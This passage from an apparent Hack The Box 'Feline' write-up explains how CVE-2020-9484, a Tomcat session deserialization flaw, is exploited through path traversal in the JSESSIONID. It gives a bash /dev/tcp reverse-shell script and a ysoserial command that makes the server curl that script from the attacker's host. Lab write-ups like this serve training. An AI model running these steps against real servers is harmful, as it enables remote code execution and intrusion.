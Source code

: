After reading this page, the vulnerability seems pretty straight forward. 
- The `PresistenceManager` will first attempt to look for a session in memory, and if it does not find it, it will attempt to look for it on the hard disk.
- We have access to change the name of the session and can set it to a path on the hard drive, for example our upload directory.
- When the the session ID check is made, it will search for it in the form of {SESSION_DIRECTORY}{SESSION_ID}.session.
    - For example, if we set our session ID to `../../../opt/samples/uploads/idiothacker` and we had a serialized payload named `idiothacker.session` uploaded to the uploads directory, our payload should be executed apon the page request.

>**NOTE:** I spent about two hours trying to do this next step, passing many different payloads in a single one-liner to try to get a shell. It seemed that everything that I threw at it would not work. Until I tried it the way that we will do it here. If you were able to do this more effeciantly, I'd love to hear how you did it.

## Exploiting CVE-2020-9484 (User Flag)

Preparing for this exploit will involve a few steps.
1. Creating a very basic bash script named `connect.sh` that simply sends a shell request to our machine.
1. Creating a file named `get.session` that will contain a prepared payload that uses curl to download the connect.sh script.
1. Creating a file named `run.session` that contains a payload that runs the connect.sh script.
1. Uploading the get.session and the run.session to the server using the sites built in functionality.
1. Start a webserver that will serve the connect.sh script.
1. Use curl to send a request to the uploads.jsp page, passing the location of get.session as the JSESSIONID.
1. Start an nc listerner on port 443.
1. Use curl to send a request to the uploads.jsp page, passing the location of run.session as the JSESSIONID.

Let's start by creating a file named `connect.sh` in our working directory with the following script. Be sure to replace `<YOUR TUNNEL IP>` with your HTB VPN IP.

``` bash
#! /bin/bash
bash -c "bash -i >& /dev/tcp/<YOUR TUNNEL IP>/443 0>&1"
```

Now we will need to go download a tool called [ysoserial](https://github.com/frohoff/ysoserial). Visit the GitHub page and scroll down to the `Installation` section and just download the jar file for JitPack. Once you have downloaded the jar file, move it to your working directory and then run it using the following command. Be sure to replace `<YOUR TUNNEL IP>` with your HTB VPN IP.

``` bash
java -jar ysoserial-master-138dc36bd2-1.jar CommonsCollections2 'curl http://<YOUR TUNNEL ID>/connect.sh -o /tmp/connect.sh' > get.session
```

![](/assets/images/htb-feline/09_feline_get.session.png)
